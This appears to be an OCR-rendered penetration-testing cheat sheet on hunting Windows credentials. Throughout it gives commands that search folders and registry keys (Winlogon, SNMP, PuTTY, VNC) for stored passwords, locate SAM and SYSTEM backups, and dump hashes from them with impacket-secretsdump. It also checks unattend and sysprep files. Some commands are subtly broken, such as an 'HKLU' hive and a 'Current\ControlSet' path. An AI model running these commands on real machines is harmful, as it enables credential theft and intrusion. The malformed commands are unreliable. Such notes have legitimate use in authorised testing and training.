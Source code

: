 ```ad-note
Get-Childitem -Recurse C:\xampp | findstr -i "directory config txt php ps1 bat xml pass user"
~~~

*Screenshots*
___

___

*Passwords in Registry Keys*

~~~powershell
reg query HKLM /f password /t REG_SZ /s; reg query HKLU /f password /t REG_SZ /s
~~~

~~~powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
~~~

~~~powershell
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"; reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"; reg query "HKCU\Software\ORL\WinVNC3\Password"; reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password
~~~

*Screenshot*
___

___

*SAM and SYSTEM Backup Files*

~~~powershell
cd C:\ & dir /S /B SAM == SYSTEM == SAM.OLD == SYSTEM.OLD == SAM.BAK == SYSTEM.BAK
~~~

> Then run icacls on these files to see if you can copy them. If you can, transfer them to Kali and dump creds.

~~~powershell
impacket-secretsdump -sam SAM.OLD -system SYSTEM.OLD LOCAL
~~~

*Screenshot*
___

___

*Unattended Files*

~~~powershell
dir C:\unattend.xml; dir C:\Windows\Panther\Unattend.xml; dir C:\Windows\Panther\Unattend\Unattend.xml; dir C:\Windows\system32\sysprep.xml; dir C:\Windows\system32\sysprep\sysprep.xml
~~~

*Screenshot*
___

___

*Alternate Data Streams*

> Looking for data hidden in a suspicious file.

~~~powershell
dir /R
~~~
```